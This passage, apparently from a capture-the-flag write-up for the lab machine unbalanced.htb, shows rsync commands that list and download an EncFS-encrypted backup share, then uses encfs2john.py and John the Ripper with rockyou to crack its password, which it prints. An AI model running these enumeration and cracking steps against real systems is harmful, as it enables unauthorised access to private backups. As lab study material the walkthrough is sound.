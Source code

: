 ```bash
> rsync -a rsync://unbalanced.htb:873
conf_backups    EncFS-encrypted configuration backups
```

there appears to be an `encfs` encrypted backup folder residing on the machine

if we can list its contents we might be able to pull down the directory

```bash
> rsync -av rsync://unbalanced.htb/conf_backups conf_backups
```
```
ls -la conf_backups/
total 632
drwxr-xr-x 2 elliot elliot   4096 Apr  4 11:05 .
drwxr-xr-x 5 elliot elliot   4096 Aug 12 00:19 ..
-rw-r--r-- 1 elliot elliot    154 Apr  4 11:05 0K72OfkNRRx3-f0Y6eQKwnjn
-rw-r--r-- 1 elliot elliot     56 Apr  4 11:05 27FonaNT2gnNc3voXuKWgEFP4sE9mxg0OZ96NB0x4OcLo-
-rw-r--r-- 1 elliot elliot    190 Apr  4 11:05 2VyeljxHWrDX37La6FhUGIJS
-rw-r--r-- 1 elliot elliot    537 Apr  4 11:05 3cdBkrRF7R5bYe1ZJ0KYy786
-rw-r--r-- 1 elliot elliot    386 Apr  4 11:05 3E2fC7coj5,XQ8LbNXVX9hNFhsqCjD-g3b-7Pb5VJHx3C1
-rw-r--r-- 1 elliot elliot    560 Apr  4 11:05 3xB4vSQH-HKVcOMQIs02Qb9,
-rw-r--r-- 1 elliot elliot    275 Apr  4 11:05 4J8k09nLNFsb7S-JXkxQffpbCKeKFNJLk6NRQmI11FazC1
-rw-r--r-- 1 elliot elliot    463 Apr  4 11:05 5-6yZKVDjG4n-AMPD65LOpz6-kz,ae0p2VOWzCokOwxbt,
-rw-r--r-- 1 elliot elliot   2169 Apr  4 11:05 5FTRnQDoLdRfOEPkrhM2L29P
-rw-r--r-- 1 elliot elliot    238 Apr  4 11:05 5IUA28wOw0wwBs8rP5xjkFSs
-rw-r--r-- 1 elliot elliot   1277 Apr  4 11:05 6R1rXixtFRQ5c9ScY8MBQ1Rg
-rw-r--r-- 1 elliot elliot    108 Apr  4 11:05 7-dPsi7efZRoXkZ5oz1AxVd-Q,L05rofx0Mx8N2dQyUNA,
-rw-r--r-- 1 elliot elliot   1339 Apr  4 11:05 7zivDbWdbySIQARaHlm3NbC-7dUYF-rpYHSQqLNuHTVVN1
-rw-r--r-- 1 elliot elliot   1050 Apr  4 11:05 8CBL-MBKTDMgB6AT2nfWfq-e
-rw-r--r-- 1 elliot elliot     29 Apr  4 11:05 8e6TAzw0xs2LVxgohuXHhWjM
-rw-r--r-- 1 elliot elliot    152 Apr  4 11:05 8XDA,IOhFFlhh120yl54Q0da
-rw-r--r-- 1 elliot elliot   5721 Apr  4 11:05 9F9Y,UITgMo5zsWaP1TwmOm8EvDCWwUZurrL0TwjR,Gxl0
-rw-r--r-- 1 elliot elliot   2980 Apr  4 11:05 A4qOD1nvqe9JgKnslwk1sUzO
-rw-r--r-- 1 elliot elliot   1138 Apr  4 11:05 a4zdmLrBYDC24s9Z59y-Pwa2
-rw-r--r-- 1 elliot elliot    443 Apr  4 11:05 Acv0PEQX8vs-KdK307QNHaiF
-rw-r--r-- 1 elliot elliot    935 Apr  4 11:05 B6J5M3OP0X7W25ITnaZX753T
-rw-r--r-- 1 elliot elliot   3643 Apr  4 11:05 c9w3APbCYWfWLsq7NFOdjQpA
-rw-r--r-- 1 elliot elliot    288 Apr  4 11:05 ,CBjPJW4EGlcqwZW4nmVqBA6
-rw-r--r-- 1 elliot elliot   1521 Apr  4 11:05 Chlsy5ahvpl5Q0o3hMyUIlNwJbiNG99DxXJeR5vXXFgHC1
-rw-r--r-- 1 elliot elliot    332 Apr  4 11:05 cwJnkiUiyfhynK2CvJT7rbUrS3AEJipP7zhItWiLcRVSA1
-rw-r--r-- 1 elliot elliot   2592 Apr  4 11:05 dF2GU58wFl3x5R7aDE6QEnDj
-rw-r--r-- 1 elliot elliot   1268 Apr  4 11:05 dNTEvgsjgG6lKBr8ev8Dw,p7
-rw-r--r-- 1 elliot elliot   2359 Apr  4 11:05 ECXONXBBRwhb5tYOIcjjFZzh
-rw-r--r-- 1 elliot elliot   1297 Apr  2 09:06 .encfs6.xml
```

looks like a lot of encrypted files

fortunately, `.encfs6.xml` is included, which contains the hash key we will crack and use to decrypt the backup with `encfs2john.py`
```bash
> sudo /opt/JohnTheRipper/run/encfs2john.py conf_backups/ > encfs6.xml.john
> sudo john --wordlist:/opt/rockyou.txt encfs6.xml.john
```
the password we get is `bubblegum`
